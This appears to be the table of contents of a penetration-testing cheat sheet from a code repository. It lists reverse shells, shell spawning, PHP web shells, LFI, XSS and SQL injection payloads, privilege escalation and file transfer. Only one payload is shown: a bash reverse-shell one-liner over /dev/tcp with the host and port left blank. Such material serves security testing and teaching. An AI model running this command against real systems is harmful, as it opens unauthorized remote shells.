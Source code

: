 ____

### Reverse shell
* #### [Bash](#bash)
* #### Python
* #### Netcat
* #### PHP
* #### Telnet
* #### Ruby
* #### Perl
### TTY Spawn Shell
* #### Python spawn shell
* #### OS system spawn shell
* #### Bash spawn shell
* #### Perl spawn shell
* #### Python spawn shell 
* #### Lua spawn shell 
* #### IRB spawn shell 
* #### VI spawn shell 
* #### VI(2) spawn shell 
* #### Nmap spawn shell 
### PHP Reverse Shell
* #### RCE
* #### Obfuscate PHP Web Shell
* #### PHP Reverse Shell
### LFI
* #### Directory traversal
* #### PHP Wrapper php://file
* #### PHP Wrapper php://filter
* #### Useful LFI files (Linux)
* #### Useful LFI files (Apache)
* #### Useful LFI files (MySQL)
* #### Useful LFI files (Windows)
### XSS
* #### Data grabber for XSS
* #### XSS in HTML/Applications
  * ##### Basic Payload
  * ##### Img tag payload
* #### XSS in Markdown
* #### XSS in SVG
* #### Bypass word blacklist with code evaluation
### SQL Injection Payloads
* #### Generic SQL Injection
* #### Time-Based
* #### Generic Error Based Payloads
* #### Authentication Based Payloads
* #### Order by and UNION Based Payloads
### Useful Linux command
* #### SUID Commands
* #### System Version
* #### Environment Variables
* #### Service settings
* #### Cron Jobs
* #### Other Users
* #### Port Forwarding
* #### TAR wildcard cronjob privilege escalation
### File Transfer
* #### Bash Upload
* #### Bash Download
* #### Netcat
* #### Python
* #### SCP

____

#### Reverse shell > bash
###### <a name="bash"></a>  bash -c 'exec bash -i &>/dev/tcp// <&1'
